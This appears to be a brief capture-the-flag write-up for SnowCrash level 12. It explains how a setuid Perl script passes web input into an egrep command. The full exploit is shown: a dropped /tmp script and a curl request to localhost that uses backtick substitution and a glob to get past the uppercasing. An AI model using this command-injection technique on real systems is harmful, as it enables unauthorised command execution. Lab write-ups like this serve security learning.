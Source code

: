 # Snowcrash12

Same story, different script

```sh
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
The goal is also shell injection as the input is part of the command

This uses regex so we need to format our input properly

There is a call to egrep with an argument next to it, seems exploitable

Thus, our input gets in the command in uppercase so it cannot be a path to a command

We can see that our input goes into uppercase and resolves symnols like *

```shell
echo "#!/bin/bash
getflag > /tmp/flag ;" > /tmp/EXPLOIT
chmod 777 /tmp/EXPLOIT
level12:~$curl 'localhost:4646?x=`/*/exploit`'
level12:~$cat /tmp/flag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXX
```

No need to flag account